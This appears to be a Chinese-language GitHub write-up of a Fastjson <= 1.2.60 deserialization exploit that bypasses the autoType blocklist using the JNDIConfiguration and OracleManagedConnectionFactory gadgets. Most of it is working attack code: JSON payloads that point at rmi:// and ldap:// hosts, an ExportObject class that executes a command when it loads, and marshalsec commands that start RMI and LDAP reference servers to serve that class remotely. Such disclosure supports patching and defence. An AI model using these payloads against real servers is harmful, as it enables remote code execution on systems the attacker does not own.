


# Fastjson <= 1.2.60 反序列化漏洞 

## By Pass Auto Block List with 2 Gadgets (JNDIConfiguration、OracleManagedConnectionFactory )




## Gadgets
```
经过测试，命中的4个文件都是可以利用的。

不过其中HikariConfig类就是前文提到的类，在最新版本被加入黑名单，JNDIConnectionPool类在42版本前就被加入黑名单了。

另外的两个类JNDIConfiguration和 OracleManagedConnectionFactory都可以构造出攻击poc，且尚未被加入黑名单。

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java containsKey

source/commons-configuration-1.9/org/apache/commons/configuration/JNDIConfiguration.java getProperty

source/HikariCP-3.3.1/com/zaxxer/hikari/HikariConfig.java getObjectOrPerformJndiLookup

source/ojdbc14-10.2.0.2/oracle/jdbc/connector/OracleManagedConnectionFactory.java setupXADataSource

source/xalan-2.7.2/org/apache/xalan/lib/sql/JNDIConnectionPool.java findDatasource
```

### FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){

        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 ="{\"@type\":\"oracle.jdbc.connector.OracleManagedConnectionFactory\",\"xaDataSourceName\":\"rmi://10.10.20.166:1099/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}
```

### ExportObject.java
```
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class ExportObject {
    public ExportObject() throws Exception {
        Process proc = Runtime.getRuntime().exec("calc");
        BufferedReader br = new BufferedReader(new InputStreamReader(proc.getInputStream()));
        StringBuffer sb = new StringBuffer();

        String line;
        while((line = br.readLine()) != null) {
            sb.append(line).append("\n");
        }

        String result = sb.toString();
        Exception e = new Exception(result);
        throw e;
    }

    public static void main(String[] args) throws Exception {
    }
}

```

## RMI RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

## LDAP RefServer
`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`


## 参考链接：

https://mmbiz.qpic.cn/mmbiz_png/f2yQgjGph7MnkCl1YEUxd6Q8mDjQkicxL7JuOFjxlOjWwQtWyYQzjE5yYkSuJVwic9qdnmRYXTtEJqxM3Efc1lYw/640?wx_fmt=png&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1

https://www.freebuf.com/articles/web/213327.html

https://mp.weixin.qq.com/s?__biz=MzUyNTk1NDQ3Ng==&mid=2247484350&idx=1&sn=de51dd5707a2ff5464423407195e9177&scene=21#wechat_redirect
